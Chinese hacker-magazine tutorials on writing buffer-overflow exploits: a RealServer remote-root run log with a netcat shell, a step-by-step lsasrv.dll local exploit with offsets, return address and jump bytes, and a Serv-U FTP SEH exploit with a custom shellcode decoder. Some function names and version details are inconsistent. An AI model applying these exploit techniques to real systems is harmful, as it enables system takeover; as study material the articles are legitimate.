```bash
C:\Downloads\RealX>THCrealbad 192.168.0.1 0
THCREALbad v0.4 - Wind0wZ & Linux remote root sploit for Realservers 8+9
by Johnny Cyberpunk (jcyberpunk@thehackerschoice.com)
exploit send ... sleeping a while ...
ok ... now try to connect to port 31337 via netcat!
```

这时就在目标机器上开了一个 31337 端口的 CMD Shell，我们用 NC 或者 Telnet 连上去就行了：

```bash
C:\Downloads\RealX>nc -vv 192.168.0.1 31337
...
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
C:\WINNT\system32>cd\
C:\>dir
...
```

这时获得的就是一个 SYSTEM 权限的 CMD 了，如果是 Linux 系统就可以获得 root 权限的 Shell。这个攻击程序唯一的缺陷就在于它的 ShellCode 是监听端口的，如果目标主机有防火墙的话，即使攻击成功也无法连接到目标主机的 31337 端口上去。当然，把这个攻击程序修改成反向连接或者截获 socket 句柄的 ShellCode 也是很简单的，只要把其中的 ShellCode 替换成所需要的就行了。不过要注意一点，这个 ShellCode 是用 0x90 异或的，所以 ShellCode 也必须使用 0x90 进行异或。

#### 修补漏洞

使用 Real Networks Helix Universal Server 9.02 以及以上版本就不存在这个漏洞了。或者是修改你的防火墙策略，让其他端口不能访问网络，也能同样达到防护的目的。

脚本小子：这个文章我就不说什么了，大家直接看看非常有代表性的一位读者来信的原样刊登吧。PS：这样的信件从五期黑防发出后，各编辑收到有关类似说法的 E-mail、论坛短消息、电话等，不下 500 次！在这里小编们除了感谢大家对我们的支持和关心，并继续为大家提供这样的优秀稿件外，还有什么可做的呢？！


### lsasrv.dll 远程溢出

文／图 F.Zh

上次写的那篇文章，有好多东西是慌里慌张地没有说清楚。究其原因，说出来不怕大家笑话，我是为了骗点稿费给 MM 买东西，所以才会写得这么急。在接受了黑防老编辑独行者一番教育后，我深刻地认识到老编，哦，不不……读者才是一切的硬道理。为了显示诚意，我决定续貂一回，作为上一篇的补偿，这稿将会更详细！

微软给的补丁包，一下子补了二十几个漏洞，其中有一个 lsasrv.dll 的远程溢出，就是被用来做“震荡波”蠕虫的那个，算是被大家研究得最多的。关于这个漏洞的远程利用，mslug 在安全焦点（https://www.xfocus.net/bbs/index.php?ac=ST&f=6&t=35712）有一个详细的分析，而这个漏洞的本地利用方法相对来说要简单一点，我们可以试着练习一下。下面就让我们开始菜鸟的溢出之旅吧。

在正文里面骗取千字 150 元的稿费，独行者一定会背着菜刀乘最近的一趟 Z1 到上海来砍我的（wtf，我有你说得那么抠门吗？早知道上期就给你发 8 元/千字的稿费了，给你 150 元/千字真是浪费。）……话说回来，我想你应该已经找到了这个程序吧？确认你的机器是 Windows 2000 而且没有补上这个漏洞的补丁，打开 VC 编译——什么？你点了运行？好吧，你应该可以看到一个 60 秒重启的对话框了，嘿嘿，如图 1 所示。这个溢出被触发后，lsass.exe 因为无法处理的异常而被迫终止，接着整个操作系统也会跟着出问题，所以，你还是等等吧……


获得了这个漏洞的消息，首先是要想办法触发这个漏洞。按照 eEye 的文档，传递给 DsRoleUpgradeDownlevelServer 函数的第一个参数以超长的字符串，就会发生溢出。再仔细看看，这个参数在 Windows 2000 和 XP 下是不一样的，XP 下面可以直接是 ASCII，但是 Windows 2000 下面必须是 UNICODE 的字符串。我们假定就在 Windows 2000 下面利用的吧，先写出一个能够触发溢出的 C++ 程序。嗯，对了，关于这种触发漏洞的程序的写法，我觉得还是要有一个积累的过程，一时半会儿是说不太清楚的，这里索性直接给出一个，以后的工作就在上面改，这样就方便很多了。而且还有一点，这种能够触发溢出的程序，往往在别人发布漏洞的时候会给出（叫做 proof of concept 的东西），像我们这样的菜鸟，能在第一时间内找到然后修改成我们能够用的就好了，呵呵。

趁这个空当儿，来说说这种漏洞的调试方法。一般的溢出要是对系统没有太大的影响（比如 Serv-U 之类），大多都在自己机器上调试。而如果是这种涉及内核或者是关键进程的漏洞，调一次就重启一次相当麻烦，高人们多半都会选择在 VMWare 中调试。如果内存足够，你也可以试试看在 VMWare 上面装上 N 个操作系统，到时候也不用辛辛苦苦地去找系统环境，所有的东西都可以在自己的机器上搞定。关于 VMWare 的使用方法，我想可以 Google 一下，或者跪求大虾们在百忙之中抽空写文章指导一下我们——很多人——起跪求，场面一定颇为壮观，想必高手多半是不好拒绝的。

能够触发漏洞的程序我已经做成了 1.cpp，能在配套光盘中找到。这个程序尽管不长，但是我贴你的机器也差不多重启完了，打开利器 OllyDbg，文件->附加，选中 lsass.exe。为什么是 lsass.exe 呢？你看看刚才的那个图 1，显示异常终止的进程是 lsass.exe，所以我们要附加调试它。相应地，如果是 services.exe 异常终止，就去附加 services.exe；如果是 winlogon.exe，那就附加 winlogon.exe，呵呵，不想死的话你可以自己试试。

等 OllyDbg 加载完所有的模块以后，按一下 F9 让 lsass.exe 继续运行。我们再回过头去修改 1.cpp。溢出已经顺利触发，下一步应该是精确定位溢出点，如果忘了怎样去定位，我们马上来复习一下：

```cpp
for(i=0; i<MAXLEN-1; i++)
    buf[2*i] = 'A';
```

这一段，原来是填充的大量的 'A'，按照我们上次说的两次定位法，把这里反复填充上 ASCII 码为 100 到 200 的数，这样子改：

```cpp
for(i=0; i<MAXLEN-1; i++)
    buf[2*i] = (char)(i % 100 + 100);
```

编译后运行光盘中的 2.cpp。“扑通”，OllyDbg 跳了出来，显示的错误信息是“访问违反：写入到 [00760000]——使用 [Shift+F7/F8/F9] 键跳过异常以继续执行程序”，如图 2 所示。


这时候错误的信息已经被 OllyDbg 监测到，而且可以调试。我们要继续往下，看看看到底是哪些数据覆盖到了 EIP。按一下 Shift+F9，OllyDbg 的错误信息变成了“访问违反：正在执行 [93929190]——使用 [Shift+F7/F8/F9] 键跳过异常以继续执行程序”，如图 3 所示。呵呵，关键的地方出来了，赶快记录下数据 0x93929190，然后关掉 OllyDbg，等待机器重启吧。


嗯，趁这个空当儿，可以拿出前几期的 Exploit 编写指南来看，下一步定位是怎样的。这一次的重启代价是获得了溢出点的低位值，下一次要获得溢出点的高位值，然后就可以定位成功，接下去就要寻找内存中的指令码，跳转后就是连接 ShellCode 获得控制权了。

又重启了一次（汗！），还是按照前面一次的步骤，打开 OllyDbg，文件->附加，选中 lsass.exe，按 F9 让它继续执行。刚才说这一次的任务是定位溢出点的高位值，赶快打开 VC 来修改上次的文件吧！

```cpp
for(i=0; i<MAXLEN-1; i++)
    buf[2*i] = (char)(i / 100 + 100);
```

对应的地方改成光盘中的 3.cpp，编译运行。这次和上次的步骤也一样，出错信息出来后按一下 Shift+F9，出来了些许不同的画面，“访问违反：正在执行 [80808080]——使用 [Shift+F7/F8/F9] 键跳过异常以继续执行程序”。赶快记录啊，0x80808080，这就是高位的地址。按照上次的方法可以算出具体的地方来。

在这之前（肯定是要重启的，我们再多办几件事情好了），看看哪些寄存器在我们传送的数据附近。在左下角的地址栏里面单击右键，选择前往->表达式，然后依次填 eax/ebx/ecx 等等。在 ebx 的附近，全是 80/81 之类的，很眼熟，我们猜想这就是我们的数据。好，关掉 OllyDbg，让计算机重启吧！

嗯嗯，又趁这个空当儿，我们来说说这个溢出的问题（顺便气气老毒）。大家一眼就看出来了吧，和上次的 CMail 有一个很明显的不一样的地方：上次是寄存器 esp 指向我们传递的数据附近，而这次是 ebx。对！说起来，这次的溢出，我们的数据覆盖到了 seh 链，而上次的是一个简单的覆盖栈上的返回地址。然而这些对我们这样的菜鸟来说并不重要，我们的想法很简单：如果 esp 指在我们传递的数据上，那我们就找内存中的 call esp 或者是 push esp/ret；如果是 ebx 指在我们传递的数据上，那我们就找内存中的 call ebx 或者是 push ebx/ret；如果发现还有其他的情况（真有其他的情况，不骗你，比如那个 perl 的问题），依葫芦画瓢就是。反正在精确定位的溢出点上填上相应的地址就可以，对了，这里说起精确的定位地址，还没有计算呢。

```text
(0x80 - 100) * 100 + (0x90 - 100) = 2844
```

也就是说在程序 3.cpp 中，在 i 为 2844 开始的地方填上一个内存中的 call ebx 或者有相同功能的地址就可以，还是上次说的 lion 那个地址 0x7FFA1571，修改 3.cpp 为 4.cpp（见光盘程序），在相应的位置上填充这个地址：

```cpp
buf[2*2844] = 0x71;
buf[2*2845] = 0x15;
buf[2*2846] = 0xFA;
buf[2*2847] = 0x7F;
```

还记得上次说的吗，数据要高位取反，写出来就是这个样子了。按照前面说了很多次的步骤，OllyDbg 附加到 lsass.exe，运行 VC 程序（4.cpp），然后按 F9，看看可爱的 OllyDbg 告诉我们什么？如图 4 所示。


图4

执行到我们的代码上了！不要怀疑，确实执行到我们提交的东西上去了，尽管出了错——我们下一步就是要消除这最后一点错误。来看看执行到了什么地方：在左下角的地址栏里单击右键，选择前往->表达式，填上 eip。注意到 eip 执行到的地方，数据刚好是 `80 80 80 80 71 15 FA 7F`，就在我们填写的那个地址 `0x7FFA1571` 的前 4 个字节。算一下 `2844-4=2840`，也就是说对应到我们的程序上面去，`i=2840` 开始，应该是 ShellCode！

这里又来了一个问题，`i=2840` 开始，ShellCode 不能只有 4 个字节吧，因为 `i=2844` 的地方必须得固定。嗯，想想还是容易解决的，我们还有 4 个字节可以利用呢，跳过 `i=2844` 地方的就可以了嘛。这 4 个字节写成 `NOP/NOP/Jmp 4` 刚刚好 4 个字节，而且刚好执行过来的时候跳过了必须固定的地方——我们在后面加上 ShellCode，这个跳转就跳到 ShellCode 上面去了，直观点，像这样子：

```text
+--------------------------------+
| Nop Nop Jmp 4 | 0x7FFA1571 | Shellcode |
+--------------------------------+
A(i=2840)      B(i=2844)      C(i=2848)
```

开始覆盖了某个地方 B（这个地方我们不关心，反正按照寄存器来选一个内存中的地址填充就行了），然后跳转后到了地方 A，执行到 A 后又是一个小跳转跳到 C，C 中放 ShellCode。嗯，继续吧。我知道你还要重启一次，趁这个空当儿（wtf: #@$%##$^%）……我没有什么要说的，你还是喝杯水吧。

好，我们要给这个漏洞以最后一击。在 `i=2840` 开始的地方填上 `NOP/NOP/Jmp 4` 这 4 个字节的机器码 `9090EB04`，在 `i=2848` 开始的地方填上 ShellCode，用上次的 MShell 函数生成合适的 ShellCode，全部加入到我们最后的成品 5.cpp（见光盘中的 5.cpp）中去，理论上应该成功了。

在本地监听 1111 口，不用打开 OllyDbg 了，直接执行程序，看到了么，我们的 NC 已经给出我们一个 shell！如图 5 所示。


图5

应该说到这里这个漏洞的本地利用算是已经写好，下面的事情就是包装程序，让用户可以在使用的时候根据实际情况给出 connect back 的 IP 和端口号。进一步地，这个漏洞还有其他很有意思的地方，比如，你用 OllyDbg 附加在 lsass.exe 上面然后执行我们的 5.cpp 看看。之前还有一个错误，如图 6 所示，和上一次的那个栈溢出相同的，是覆盖了返回地址，我们需要用 `call esp` 或者类似的指令在内存中的地址去覆盖来获得控制权。这个的精确定位和上面定位的方法一样，大家可以当作练习做来看看。


图6

下面回顾一下我们这次菜鸟之旅的心得。

- 1) 如果我们能够控制 eip 的内容，就能获得控制权。在这个时候我们要去看哪个寄存器指向我们发送的数据，然后根据寄存器选定一个内存中的地址（这个地址的内容应该是 call XXX 的指令码）来覆盖那个溢出点。具体是 esp 还是 ebx 对我们来说不是很重要。除了这两种方式，如果是其他的寄存器比如 esi、edi 等，也可以举一反三。

- 2) 执行到我们发送的数据上后，如果发现有不能更改的数据，那我们就想办法跳过去。对这个漏洞，有些东西我想解释一下。首先是我们这次是给那个很长的 buf0 一个一个地赋值，而不是一次性复制很多字符串过去，这是为了能够触发漏洞的缘故。Windows 2000 下面要求必须是 UNICODE，但是在发生溢出的时候实际上已经把 UNICODE 转换了回来，我们就将这一过程视为透明的好了——只要我们能够控制 eip 的值，形式如何我们并不关心。还有就是这个漏洞可以有两次机会控制 eip，头一次说过 jmp esp 之类的操作码在内存中的地址是对版本有依赖性的，这样的话就多了一次机会。当然可以放上两个不同版本/语言对应的操作码的地址，这样通用性会得到提高。

脚本小子：这篇文章是我们《菜鸟版 EXP 编写指南》系列的第三篇文章。从第一篇文章发表后在读者群中引起轰动效应，到无数喜欢研究系统漏洞的朋友来电、来函要求我们继续将这样的好文章刊登下去，并提出许多非常好的建议，已经是 4 个月的时间过去了。我脚本小子作为黑防的一个普通小编，没有 WTF 的“伟岸”，没有娜蝶 MM 的“闭月羞花”，却依然能欣赏到如此细致的文章，的确是人生一大美事。更何况作者应读者朋友们的要求，特意准备了完整的源代码、关键步骤的操作录像等贴切的“好东西”给大家。我们除了感谢作者并仔细研究文章内容外，还有什么可做的呢？

### Serv-U FTP 漏洞

#### 旧饭重炒

文/图 F.zh


我也很诧异我这个菜鸟能把这个系列写到第三篇，但既然有人读，就只有继续献丑了。写稿的时候 Windows 平台及其第三方软件似乎没有报道有新的漏洞，只能用以前的一些重要漏洞作为例子。继续这样的话，不知道会不会有一天写到古老的 IDQ/IDA 啊，或许我应该换一下平台，写写 *nix 上面的东西？

Serv-U 在国内的应用还是很广泛的，很多虚拟主机还有一些下载电影的网站都喜欢用这种 FTP 服务软件，所以从今年一月份开始公布的一系列 Serv-U 的漏洞真是杀伤力超大。说起来虽然从 Site Chmod 到 MDTM 到后来畸形路径都是简单的栈溢出，但对 ShellCode 的要求和对覆盖地址的要求还是比较高，外面有一些分析的文章，我们就用这些文章为例来看，ShellCode 怎么去构造。

关于溢出的触发方法和基本框架结构的搭建，这个系列的前面几个部分已经说了不少，这里先从最原始的 FTP 协议开始，简单说说怎样搭一个触发溢出的框架。

FTP 协议标准具体可以参见 RFC959/2228/2640/2773。Serv-U 漏洞的前面两个都是扩展协议出的问题，从触发的流程可以看出连接到 FTP 服务端口 -> 登录 -> 畸形提交导致溢出。值得注意的是，很多 FTP 服务软件并不严格遵循 RFC 定义，最好能够找到 FTP 服务器对应的手册，按照手册的描述针对性地写出程序。对于 Serv-U，如果用 NC 来连接到 FTP 的服务端口，你会发现一个奇怪的问题，那就是不管你输入了什么东西，Serv-U 的守护进程始终不给你返回的信息。最开始的时候我也被这个问题困扰了很久，后来抓包的时候才发现，原来 NC 把我们的回车作为一个单纯的“\n”发送了出去，而 Serv-U 要求的命令结束符是“\r\n”。

这个结论很讨厌，其直接的后果是触发溢出漏洞的时候我们不能用方便的 NC，而只能使用 Telnet 命令（顺带着说一下，Telnet 是可以有回显的，连接上后按“Ctrl+]”，再输入 set local_echo，然后再退回连接模式就可以看到）。不过 Telnet 是接受一个字节发送一个字节，很多方便的快捷键，如上下左右，就没有办法使用。倘若经常使用到这些功能，不妨自己写一个类似 NC 的小工具。

好，现在先来手工触发漏洞。按照 FTP 协议，连接以后应该有一个合法的身份可以登录，然后我们通过一个畸形的命令让 Serv-U 挂掉，下面是一个流程。当然，前提是 Serv-U 是 4.x 版本的，而且已经使用过 Telnet 命令。值得注意的是，Site Chmod 需要一个有写权限的账号。

```text
220 Hello~ This is F.Zh's FTP Server.
user test
331 User name okay, need password.
pass test
230 User logged in, proceed.
site chmod 777 namenamenamenamenamenamenamename...
...
```

前面有数字的都是服务器给我们的提示，这类数字在 FTP 协议中有详细的描述，可以查阅一下 RFC。我们提交的是“user/pass/site”开头的几行，存在漏洞的服务器在一个超长的 Site Chmod 过去后，由于守护进程挂掉了，因此连接也会断掉。如果连接没有断掉，你可能要检查一下，是不是用户没有写的权限，或者是 Serv-U 的版本不对。

#### 小提示

把上面的动作自动化，写出程序来，也就搭好了最开始的架子：1.cpp（详细代码请查看光盘“源代码”栏目，按照文章名查找即可）。

开始运行这个最初的触发漏洞程序吧。之前当然要先打开我们的利器——OllyDbg，选择附加到“ServUDaemon”这个进程，当程序运行的时候，OllyDbg 会在发生错误的地方停下来，如图 1 所示。


图 1

#### 小提示

这种情况我们已经看到很多次了，不是吗？接下来我们可以按 Shift+F9 直接看到出错的画面，不过这一次，我们来看看这期间 Windows 到底是怎样处理的。

看清楚了么？原来程序出错以后，Windows 还给了它一个最后处理异常的机会，这就是一个所谓 SEH 结构化异常处理的机制。抛开个中细节不管，单看到最后的地方，这个处理机制从内存中读了一个数据，然后准备跳转过去（动画结束的时候，那个 Call Ecx）。是不是觉得这个地址很熟悉啊？0x73737373（ASCII 码对应 4 个小写的 s），刚好是我们提交的内容。再在内存中看看 Ebx 指向的地方，刚好也是我们提交的数据。我们可以控制跳转的方向，同时可以动态定位（Ebx）我们的数据地址，非常符合一个典型的溢出情况。

这一篇，我想你已经知道下一步该怎么做了。在 OllyDbg 中按一下 F9，果然执行到了 0x73737373，如图 2 所示。


图 2

0x73737373，如图 2 所示。

接下来就是两次触发异常来准确定位溢出点，然后覆盖跳转的地址为一个和“Call ebx”等价的内存地址，然后添上我们的 ShellCode。流程没有错，但是 ShellCode 这一步有点问题。想想看我们提交的这个很长的字符串其实是一个文件名（呵呵，请看看 RFC），Windows 下对文件名有很多规定，比如不能出现问号、星号、冒号等。如果包含在文件名中的 ShellCode 含有这些特殊字符，被 Serv-U 处理掉后，执行时就会出错。

从一些对漏洞的描述文章中可以知道，ShellCode 中不能含有的字符包括上面提到的非文件字符、空格还有 3 个连续“0xFF”等。如果你平时注意收集 ShellCode 的话，说不定能找到满足要求的拿来直接用。但是很不幸，我用的这些 ShellCode 全军覆没，主要问题都出在前面的 Decode 部分上。为了能够写出这个利用程序，我们不得不去设法改写现有的 ShellCode（另：这里的特殊字符非常有限，如果特殊字符更多一点，ShellCode 的改法可以参考另外一篇文章）。

这里插一句话，很多 ShellCode 都是分成两段的，真正有意义的在第二段，第一段不过是起解码的功能。我们找 ShellCode 的时候，首先看看它的第一部分是不是满足关于上述的字符限制，如果不是，我们有可能还要去重新书写这一部分。这个工作量太大，以至于我们无法接受，所以我们还是多找找，总能找到满足要求的。

这个漏洞对 ShellCode 的要求比较讨厌，因为连续的 3 个 0xFF 不能出现，也就是说，传统的用 Call+Pop 来动态定位需要解码的真实 ShellCode 地址这类写法会受限。

## 初级篇《黑客防线》2009 缓冲区溢出攻击与防范专辑

套路是行不通的。Call 的时候，由于是向低地址处做相对偏移的调用，所以一般都会出现连续的 3 个 0xFF（负数），除非你的 Decode 部分长度超过了 255 个字节，而一般情况下这不可能。字符的限制迫使我们考虑其他的方法。前面几篇文章提到过在内存中搜索，要是直接搬过来用也可以。如果有兴趣，可以参看前面的做法，这里我们换一下思路，直接计算地址，然后进行解码。

前面说到过，溢出的时候 Ebx 刚好指向我们的 ShellCode 前面的 8 个字节，如下表所示：

| NOPs | jmp 6 | jmp 6 | jmp ebx | Decode | real ShellCode |
|---|---|---|---|---|---|
| 4 bytes |  | 4 bytes |  | ?? | ebx + 8 + ?? |

溢出发生并且成功跳转以后，Ebx 指向的地方是第一个 Jmp 6 处，中间隔了两个 Jmp 6、一个 Jmp Ebx 的地址，还有一个 Decode 部分，才是真正起作用的 ShellCode。也就是说，中间隔了 8 个字节以及一个 Decode 部分的长度。这个数字目前无法确定，但是我们写出 Decode 部分后就可以确定了。在此之前，我们把这个数字随便设定为一个数值，比如 50 吧，因为写 Decode 部分时需要用到，我们把 Decode 部分的长度确定下来了再回去改也可以。

下面开始写合乎编码要求的 Decode 部分了。基本上这是一个费时间的工作，要注意有没有出现异常的字符，不停地编译，不停地去看去修改。下面给出一个模板。这个东西并不复杂，因为 Decode 部分本来要做的工作就很简单，无非是获得真正的 ShellCode 开始的地址，然后解码（通常是与 0x99 做一下异或），先看代码，后面还会有解释。

```asm
add ebx,32h
xor ecx,ecx
mov cx,155h
Decode:
  xor byte ptr [ebx+ecx],99h
  loop Decode
```

第一句当然是确定需要解码的 ShellCode 的内存地址；第二、三句是确定解码的长度，长一点没有关系；第四、五句是简单的循环，依次把 ShellCode 解码，解码完以后，就自然地执行过去了。

在 VC 中嵌入汇编可以很轻松地看到编译后的机器码，搜集一下：

```text
"\x83\xC3\x32\x33\xC9\x66\xB9\x83\x01\x80\x34\x0B\x99\xE2\xFA"
```

这下子 Decode 部分的长度也知道了，一共是 15 个字节，所以可以计算溢出后执行到这里时，待解码的 ShellCode 起始内存地址为 Ebx + 8 + 15 = Ebx + 33 = Ebx + 17h。考虑到循环条件是按照 Ecx 的值来决定的，最后一次循环的时候，Ecx 的值为 1（为 0 就跳出循环了），所以应该保证 Ebx+1 是要解码的最后，也就是待解码的第一字节。所以解码部分的第一句 add ebx,32h 要改成 add ebx,16h，最后得到的 Decode 是：

```text
"\x83\xC3\x16\x33\xC9\x66\xB9\x83\x01\x80\x34\x0B\x99\xE2\xFA"
```

把这一段替换掉原来 ShellCode 的 Decode 部分，就可以放心地使用。

构造好我们的最终版的溢出程序，呵呵，中间的步骤虽然看起来都省略了，但想想其实事情并不多，就是确定一下溢出点，我算过了 403，你也算算？……

运行一下试试看，成功没有？什么，没有成功？失败了？

我们拿出 OllyDbg 看看，一步一步地跟着走，看看为什么，是因为 Decode 出了问题吗？

从调试的过程来看，Decode 部分（就是 call ecx -> jmp ebx -> jmp xxxxx 后开始的地方）没有出错，解码也确实成功了，但是执行 ShellCode 中似乎出了点问题。第一个直觉是 ShellCode 被改掉了，在哪里被改的呢，现在还不清楚究竟是 ShellCode 本身含有特殊字符，还是在溢出发生之前被改掉了。第一种情况的话，可以换一个 ShellCode；第二种情况就要挨着去对比，工作量比较大。按道理应该先做第一个，但具体有些什么字符不能包含我们并不是很清楚，如果贸然去换 ShellCode 的话，可能问题越来越多，所以还是先做第二种情况。有些时候，看似麻烦的路子可能反而容易走一些。

和上次的工作一样，运行到 Decode 部分，在内存里面选择显示 Ebx 处的内容，然后选定后面的一大段数据，导出到文件，如图 3 所示。

我们来仔细对比一下内存中的内容和在程序中 ShellCode 的内容是否一样。经过长时间仔细地比较，我们发现在 Ebx+28 的地方好像不一样。回去再看看图 2，呵呵，我用红笔画出来的，发现了么？这个地方非常显眼，应该是‘s’啊，却变成了‘q’。


图 3

被减小了 2，同样地，对比文件中也发现是减小了 2，如图 4 所示。


图 4

既然这样，我们把 Ebx+28 地方的值先加上 2，到时候再减掉 2，不就刚刚好吗？

执行一下程序，然后 Telnet 127.0.0.1 53，Shell 是不是已经出来了？很有成就感吧，呵呵。

对于 Serv-U 的 MDTM 时区漏洞，我记得在最开始的那一篇文章里面简要地提到过，这个漏洞的问题是如果时区超长反而就不会触发，所以必须控制好时区的长度。由于时区不能过长，所以一般来说都在这里只放上一个搜索真正 ShellCode 的搜索代码，而把起作用的 ShellCode 放到其他地方。这个 Search Code 和第一次的几乎一模一样，而且也没有什么特别需要注意的地方，有兴趣的朋友不妨动手做一做。

这个系列写到这里该总结一下。对于栈溢出来说，其实要写一个 Exploit 并不是特别的困难，我们只要知道其中的原理，然后用细心加耐心去调试就可以了。Exploit 中真正重点的地方几乎都在 ShellCode 中，而 ShellCode 中最让人头痛的功能部分，已经有很多大虾们写好并且无私地贴了出来。

我们除了学习，就是直接拿来使用。对于不同的漏洞，可能对 ShellCode 的要求不一样，这是唯一在调试每一个漏洞中能得到乐趣的地方；而其他，像对溢出点的定位、溢出程序的基本构造，都是很繁琐也很机械的行为，如果不能在这些当中获得一些乐趣的话，跳过这些部分也无妨。

对于上面的溢出，还值得指出的是，由于可写的目录不一定是根目录，因而有可能我们需要对路径进行切换。单独的路径切换，仅仅用一个 CWD 命令就可以完成，但是路径对溢出点的定位是有影响的。倘若要将程序做得完美，对于路径的考虑非常必要。另外，要做出通用的东西，还要考虑命令行的输入等，很多东西要让用户自己去指定，这些都是繁琐的工作。在外面发布的一些利用源代码做得很好，看看就行，在这个地方不再赘述了。

关于这里写出来的一些调试方法，有些看起来似乎非常地取巧，然而却是很有效果。写出来纯粹是为了让读者也能感受一下编写 Exploit 的乐趣，并不是主张读者用相同的方法去研究漏洞。我想不管什么漏洞，最好都能够看看反汇编的代码。这样，比我们在这里有些东西只能靠猜测（比如前面的某一个地方被减去了 2）要好很多；而且一旦对这个非常感兴趣的话，如果不去看反汇编而仅仅是黑盒方式来测试的话，就算有所提高，这提高也是非常有限的。

最后还是模仿 Leven 在 Xfocus 上面发的一篇 Windows 溢出随笔，写上一些随笔作为这篇文章的结束吧！

- 1. 一般来说，栈溢出比堆溢出更容易利用，也更加通用。
- 2. 在考虑 Exploit 的通用性之前，最好能把软件在 Windows 的各个版本下（Windows 2000、Windows XP、Windows 2003，不同的语言版本、不同的 SP 版本）调试一下。软件的兼容性也是一个问题，最好能够找到有漏洞的最高版本的软件来调试。
- 3. 不要试图在不同版本的 Windows 里寻找不同跳转方式的相同地址。也就是说不要在 Windows 2003 SP4 简体中文版里的某个进程里搜索所有的 `jmp esp`（ff,e4）的地址，在 Windows XP SP1 英文版里的某个进程里搜索所有的 `push esp; ret`（54,c3）的地址，然后妄图比较出一个相同的地址。除非是加载在 0x00400000 位置的进程。另外，在同一种系统的各个语言版本（如 Windows 2000 SP4）里，在 Msvcrt.dll 中找到的地址可以通用；在同一种语言的各个系统版本（如简体中文 Windows 2000、Windows XP、Windows 2003）中，也可能存在可复用地址，但仍需逐一验证。
- 4. 如果用覆盖异常的方式接管指令（比如这篇文章中举到的例子），要注意到 Windows XP/2003 和 2000 是不同的。如果要写通用程序，最好用 Pop, Pop, Ret 的方式，Windows XP/2003 下面你常常会发现 Ebx 在溢出的时候变成了 0。
- 5. 涉及搜索内存里的 ShellCode 的时候，最好能够先接管异常，除非确定在你开始搜索的地址附近一定能够找到。Windows XP 不允许执行栈中的代码，所以需要在异常处理链里写入另一个跳转地址，再返回到栈中。若之前就是通过覆盖异常的方式接管指令的话，现在就可以直接利用了。
- 6. 对于菜鸟而言，应果断地放弃 UNICODE，除非你有很多的时间，而且觉得你能够在不断地解决问题中得到乐趣。
- 7. 指令跳转大多数情况下是靠指令 Jmp、Call 或者 Ret。对于覆盖地址的情况，绝大部分漏洞都只能尝试寻找这些指令地址。
- 8. 除了 Esp/Ebx，还有其他方法可以定位 ShellCode。分析漏洞时，不妨把当时的所有寄存器都看一遍，有时保存在堆栈里的地址也有用（比如 Messenger），把上下文的调用函数也看一遍，利用它们定位可能效果更好。
- 9. 栈溢出时，把 ShellCode 放到覆盖返回地址或者异常处理链的前面也不失为一个好方法。
- 10. 对于漏洞而言，写合适的 ShellCode 往往是最难、也是最有乐趣的一步，每个漏洞的利用都是对耐心和创造力的考验。
- 11. 享受 Exploit 的乐趣，如果你不能够得到满足或者无法下手，不妨休息一下，事情往往会有戏剧性转变，也许两三天后，你发现灵感又回来了。

## 脚本小子

这篇文章的目的是想拓宽缓冲区溢出编程思路。其实 Hack 技术、Crack 技术以及 Sniffer 技术是密不可分的，都是围绕着真正的黑客精神——探索和共享不断发展和进步的。本文就从 Exploit 讲起，利用 Hacker + Cracker + Sniffer 几种不同的技术将溢出程序打造得更加完美，很具有通用性，适合喜欢“偷懒”的朋友学习溢出哦！

## Hacker + Cracker + Sniffer 的结合利用

文/图 王涛/ww0830

看了《黑客防线》上 F.Zh 的《菜鸟版 Exploit 编写指南》系列，觉得是难得的教科书般的文章。在那 2 篇文章里，F.Zh 用独创的整除求余法，利用系统出错对话框提供的信息，精确地定位覆盖点。由于语言的通俗性和方法的实用性，成就了 F.Zh 在缓冲区初学者教程方面的经典。

可能考虑到面向初学者的原因，作者更多地是直接给出操作，没有涉及原因。比如为什么 Jmp esp 可以跳到后面，Jmp ebx 会跳到前面，实际并不像作者说的 Esp 和 Ebx 正好就是前面或后面那个位置那么简单。就如同刘备是张飞的大哥，并不是仅仅张飞是刘备的三弟那么简单，里面有很多系统处理的原因。为了弥补作者理论上的不足，真正地成就缓冲区入门教程经典，所以自己写了篇《读〈鸟版 Exploit 编写指南〉有感》，大家可以参阅。

把我的和 F.Zh 的文章联合起来，这可是理论和实际的完美结合哦，对付标准的缓冲区堆栈溢出，简直就是势如破竹，所向无敌。嘿嘿，自夸一下先（如果没有找到，大家找独行者去啊，一定是他私吞了）。

好了，由于我和 F.Zh 的努力，现在缓冲区入门级教材已经达到了很难超过的水平啦（脚本小子汗……），但独哥给了我一个机会，让我再写写缓冲区的溢出，于是我就对上天说：给我其他适合初学者的漏洞吧，如果非要给数目加上限制的话，我希望是一万个！还好，F.Zh 还没有把漏洞介绍赶尽杀绝，他上次讲的 Lsasrv.dll 的本地溢出阐述的是一般情况下编写 Exploit 的思路，相信大家在随着教程一步步学习的时候，都重启得不亦乐乎吧？那么这次我们就来扩展编写缓冲区溢出的思路吧。例子嘛，就用……## Lsasrv.dll 的远程溢出漏洞

好了！注意，本文着重对缓冲区编写的思路扩展，其基本能力是完全建立在上次教程上的，所以如果大家有所遗忘，再翻翻以往的文章吧（什么？你还没有？快去找《黑客防线》黑牡丹大姐邮购去啊）。

在上次的本地溢出漏洞中，F.Zh 是这样实现的（如图1所示）：

```c
HMODULE hNetapi = LoadLibrary("Netapi32.dll");

DsRoleUpgradeDownlevelServer = (DSROLEUPGRADEDOWNLEVELSERVER)GetProcAddress(hNetapi,
    "DsRoleUpgradeDownlevelServer");

DsRoleUpgradeDownlevelServer(
    (unsigned long)&buf2[0], (unsigned long)&buf2[0], (unsigned long)&buf2[0],
    (unsigned long)&buf2[0], (unsigned long)&buf2[0], (unsigned long)&buf2[0],
    (unsigned long)&buf2[0], (unsigned long)&buf2[0], (unsigned long)&buf2[0],
    (unsigned long)&buf2[0], (unsigned long)&buf2[0], (unsigned long)&buf2[0]);
```

图1

大家都看到了，是从系统 Netapi32.dll 中找到 DsRoleEncryptPasswordStart 函数，然后执行该函数，函数的第一个参数过长就会溢出了。溢出效果是什么？嘿嘿，你还没重启够吗？

> Windows 不像 UNIX 那样使用系统调用来实现关键函数，Windows 通过动态链接库来提供系统函数，就是所谓的 DLL。DsRoleUpgradeDownlevelServer 函数由 Netapi32.dll 提供，所以要想执行该函数，我们必须首先使用 `LoadLibrary("Netapi32.dll");` 装载动态链接库 Netapi32.dll，之后用 GetProcAddress 获得函数地址，然后才能调用 DsRoleEncryptPasswordStart 函数。

